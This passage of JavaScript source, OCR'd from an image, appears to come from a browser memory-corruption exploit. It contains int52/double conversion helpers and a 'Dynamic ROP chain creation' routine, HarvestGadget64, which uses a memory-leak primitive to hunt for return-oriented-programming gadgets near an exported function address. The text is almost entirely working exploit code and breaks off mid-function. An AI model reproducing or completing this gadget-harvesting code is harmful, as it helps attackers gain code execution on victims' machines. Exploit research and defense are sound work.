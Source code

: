         if (Low < 0) {
            Low += 4294967296;
        }

        return High * 4294967296 + Low;
    }

    function Int52ToDouble(Value) {
        var Low = Value | 0;

        if (Low < 0) {
            Low += 4294967296;
        }

        var High = Value - Low;

        High /= 4294967296;

        if ((High < 0) || (High >= 1048576)) {
            DebugLog("Fatal error - not an int52: 0x" + Value.toString(16));
            Loew = 0;
            High = 0;
        }

        return { low: Low, high: High };
    }

    function MakeQword(High, Low) {
        return { low: Low, high: High };
    }

    ////////
    ////////
    // Dynamic ROP chain creation code
    ////////

    function HarvestGadget64(HintExportAddress, MaxDelta, Data, DataMask, MagicOffset) {
        var MaxHighAddress = MakeQword(HintExportAddress.high, (HintExportAddress.low + MagicOffset + MaxDelta));
        var MinLowAddress = MakeQword(HintExportAddress.high, ((HintExportAddress.low + MagicOffset) - MaxDelta));
        var LeakAddress = MakeQword(HintExportAddress.high, HintExportAddress.low + MagicOffset);
        var LeakFunc = LeakDword64; // Leaking by DWORD causes some quirks on 64-bit. Bitwise NOT solves issue.
        var InitialAddress = LeakAddress;
        var IndexDelta;

        if(MinLowAddress.low < HintExportAddress.low) {
            MinLowAddress.low = HintExportAddress.low; // Don't bother scanning below the hint export
        }

        DebugLog("Hunting for gadget 0x" + Data.toString(16) + " between 0x" + MinLowAddress.high.toString(16) + MinLowAddress.low.toString(16) + " and 0x" + MaxHighAddress.high.toString(16) + MaxHighAddress.low.toString(16) + " starting from 0x" + LeakAddress.high.toString(16) + LeakAddress.low.toString(16) + " based on hint export at 0x" + HintExportAddress.high.toString(16) + HintExportAddress.low.toString(16));
